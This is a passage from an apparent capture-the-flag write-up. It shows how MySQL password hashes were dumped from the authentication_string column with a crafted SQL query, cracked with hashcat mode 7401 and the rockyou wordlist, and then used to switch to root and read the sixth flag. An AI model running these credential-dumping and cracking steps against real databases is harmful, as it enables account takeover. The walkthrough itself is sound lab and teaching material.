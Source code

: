 After searching over internet, I found this https://www.percona.com/blog/brute-force-mysql-password-from-a-hash/  blog that shows how we can retrieve hash from `authentication_string`. 
Use blow query to dump hash:
```console
mysql> select CONCAT('$mysql',LEFT(authentication_string,6),'*',INSERT(HEX(SUBSTR(authentication_string,8)),41,0,'*')) AS hash FROM user where User="dev";
+--------------------------------+
| hash                           |
+--------------------------------+
| $mysql$A$005*0D172F7...4536142 |
| $mysql$A$005*1C160A3...935462E |
+--------------------------------+
2 rows in set (0.00 sec)
```

Now, we can crack password with `hashcat` using mode `7401`:
```console
$ hashcat -m 7401 hash /usr/share/wordlists/rockyou.txt
...
$mysql$A$005*1C160A...935462E:[REDACTED]
$mysql$A$005*0D172F...4536142:[REDACTED]
...
```

Use this password to switch to `root` user and get the sixth flag.
```console
clarice@clocky:~$ su root
Password: 
root@clocky:/home/clarice# cat /root/flag6.txt
THM{REDACTED}
```
